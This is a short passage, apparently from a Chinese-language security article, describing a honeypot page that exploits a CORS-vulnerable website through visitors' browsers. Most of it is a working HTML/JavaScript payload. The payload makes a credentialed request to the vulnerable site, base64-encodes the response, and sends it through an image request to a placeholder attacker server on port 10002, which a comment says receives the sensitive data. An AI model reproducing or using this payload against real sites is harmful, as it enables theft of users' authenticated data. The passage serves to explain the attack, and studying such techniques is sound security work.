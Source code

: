 [![](assets/1711555981-10bf254d9b263aef2d99df9eb7838a54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108112235-0fea9d5a-7de6-1.png)  
这里要特别注意'有 CORS 漏洞的网站'写的是 127.0.0.1 是因为蜜罐是挟持访问者去访问而不是 kali 自己去访问，并且我们已经限制了 kali 无法访问到 CORS 漏洞的网站

```plain
<!DOCTYPE html>
<html>
<head>
    <title>CORS TEST</title>
</head>
<body>
    <div id='output'></div>
    <script type="text/javascript">
            var req = new XMLHttpRequest(); 
            req.onload = reqListener; 
            req.open('get','有 CORS 漏洞的网站',true); 
            //req.setRequestHeader("Content-Type","application/x-www-form-urlencoded;"); 
            req.withCredentials = true;
            req.send();
            function reqListener() {
                new Image().src="http://蜜罐服务器IP:10002/" + window.btoa(unescape(encodeURIComponent(JSON.stringify(req.responseText))))  // 要接收敏感信息的攻击机监听端口
            };
    </script>
</body>
</html>
```
